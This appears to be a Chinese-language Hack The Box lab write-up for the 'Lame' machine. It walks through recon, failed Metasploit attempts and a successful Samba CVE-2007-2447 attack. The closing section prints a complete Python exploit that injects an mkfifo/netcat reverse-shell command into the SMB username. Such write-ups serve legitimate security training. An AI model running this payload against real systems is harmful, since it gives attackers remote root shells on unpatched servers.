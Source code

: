 # HTB lame


## 偵查


```
nmap -A -Pn [ip address]
```
21 22 139 445 port 有開啟
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/e5429fad-6195-4cf7-9e99-b8608345d557)


---
## 攻擊
### 21port 
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/0b06efe3-1e6a-47ca-a210-91528f5bcf95)


---
use `searchsploit`
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/07cf9f12-3eef-41db-a6ea-82b27d793b8c)


---
使用 metasploit framework
搜尋vsft 使用1
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/b7acccde-030e-4f23-b485-4a43e1a2f15b)


---
設定RHost，exploit，失敗
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/751707a9-5f02-4cc2-b45c-82da5ea98a96)



### 22port 
ssh通常是無法在沒有資訊的情況下連線
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/56bb7211-b5df-4f4f-b4f0-df30e4bc1d91)


### 139 445port
同樣都是samba服務
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/ccd6ee3c-49de-4db4-86a4-7544c5dfa61a)


---
查詢smaba版本(有metasploit)
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/a020969a-9419-4d5b-b499-7dc9f41ba0d5)


---
使用metasploit framework 
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/291d3215-205b-4292-9674-50df88c53438)


---
查看option
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/e2f0fba5-570c-448a-9bd1-f5ba12ffea55)


---

準備使用4444port監聽
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/856f565a-46d5-4ff3-9f89-eb33a79e7289)


---
設定參數
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/7e7b5c2d-c99f-4556-ab04-ebc443e20de0)

失敗

---
github搜尋漏洞CVE-2007-2447
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/c13e6651-afe7-418b-8f8f-ece22e06e673)


使用`git clone`下載檔案
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/1dca4ecc-da0b-4893-bf62-c0cc46b6db5c)


---
進入資料夾 CVE-2007-2447
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/5dd29d3a-d3e1-4bc0-81fd-383c6d9ecfc1)

---
閱讀說明
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/e56bec67-5194-4b58-b329-f5aba7de2b55)


---

開啟監聽 port 4444
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/d6d9e79f-3ac4-4061-8505-57edf95f4d3a)



---
使用usermap_script.py 
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/56d9d8c4-60d1-4b82-a4d1-4738544199dd)

---
成功
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/8b370521-11e2-4017-a5dd-cc11c3b8955b)


---
## 提權
使用`whoami`發現已經是root
使用find 指令尋找 user.txt root.txt
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/a14bafc1-684e-424c-bcd1-5c3fd10a8187)



## 補充
### samba
#### 介紹
Samba 是一種在不同作業系統之間共享檔案和打印機的軟體，主要用於實現 Unix/Linux 和 Windows 系統之間的互操作性。使用 Samba，Linux/Unix 伺服器可以作為網路鄰居中的一部分，允許 Windows 電腦訪問和共享 Unix/Linux 資源，反之亦然。

Samba 的主要功能包括：

+ 檔案和打印共享： 允許 Linux/Unix 和 Windows 系統之間共享檔案和打印機。

+ 網域控制器功能： Samba 可以作為一個網域控制器（Domain Controller），管理一個網域的用戶帳戶和密碼。

+ 使用者和群組管理： 管理網路上的使用者帳戶和訪問權限。

+ 名稱解析和瀏覽： 提供網路瀏覽和名稱解析功能，使不同系統的使用者能夠輕鬆找到和訪問共享資源。

+ Active Directory 整合： 支持與 Windows Active Directory 環境的整合，允許使用 AD 帳戶和策略。


### 漏洞使用
Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

程式碼
```python=
#!/usr/bin/python
# -*- coding: utf-8 -*-

# 來源：https://github.com/amriunix/cve-2007-2447
# 案例研究：https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        # 構建攻擊載荷，用於在目標機器上創建管道，並通過netcat反向連接回攻擊者的機器
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        # 構造特殊用戶名，當Samba服務解析時，將執行payload
        username = "/=`nohup " + payload + "`"
        # 初始化一個SMB連接
        conn = SMBConnection(username, "", "", "")
        try:
            # 嘗試連接到目標SMB服務
            conn.connect(rhost, int(rport), timeout=1)
        except:
            # 如果連接異常，提示載荷可能已發送
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    # 腳本入口，打印信息
    print("[*] CVE-2007-2447 - Samba usermap script")
    # 檢查是否提供了所有必要的參數
    if len(sys.argv) != 5:
        # 如果參數不足，打印使用方法
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        # 參數正確，開始連接過程
        print("[+] Connecting !")
        rhost = sys.argv[1]  # 目標主機IP
        rport = sys.argv[2]  # 目標主機端口
        lhost = sys.argv[3]  # 攻擊者主機IP
        lport = sys.argv[4]  # 攻擊者主機端口
        # 執行exploit函數進行攻擊
        exploit(rhost, rport, lhost, lport)

```
